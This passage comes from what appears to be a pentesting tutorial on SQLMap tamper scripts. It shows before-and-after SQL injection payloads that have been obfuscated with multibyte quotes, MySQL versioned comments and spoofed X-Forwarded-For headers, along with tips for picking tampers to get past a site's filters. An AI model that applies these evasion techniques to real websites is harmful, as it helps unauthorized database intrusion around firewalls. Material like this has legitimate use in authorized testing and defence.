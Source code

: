 - unmagicquotes

Replaces quote character (‘) with a multi-byte combo `%BF%27` together with generic comment at the end. For example:

-- First payload  
1' AND 1=1  
  
-- After using the tamper  
1%bf%27-- -

- uppercase

Replaces each keyword character with upper case value. For example:

-- First payload  
insert into  
  
-- After using the tamper  
INSERT INTO

- varnish

Appends a HTTP header (eg. `X-originating-IP` ) to bypass Varnish Firewall. For example:

X-Forwarded-For: 184.189.250.0  
X-Originating-IP: 127.0.0.1

- versionedkeywords

Encloses each non-function keyword with (MySQL) versioned comment. For example:

-- First payload  
1 UNION ALL SELECT  
  
-- After using the tamper  
1/*!UNION*//*!ALL*//*!SELECT

- versionedmorekeywords

Encloses each keyword with (MySQL) versioned comment. For example:

-- First payload  
1 UNION ALL SELECT  
  
-- After using the tamper  
1/*!UNION*//*!ALL*//*!SELECT

- xforwardedfor

Append a fake HTTP header (eg `X-Forwarded-For` ). For example:

X-Forwarded-For: 32.12.225.32

> This list will be updated if tamper scripts are removed or added to the SQLmap repo

# **Pro Tips**

- Before you will use the SQLMap tamper script. It’s best to find out first what characters are filtered by the website you are trying to pentest. For example if the website filter whitespace character, you can use `space2comment` or `space2plus` tamper. Or if your website only accept `base64` you can use `base64encoding`
- You can use 2 or more tamper scripts in 1 command, for example i want to use `space2comment` and `randomcomments` :
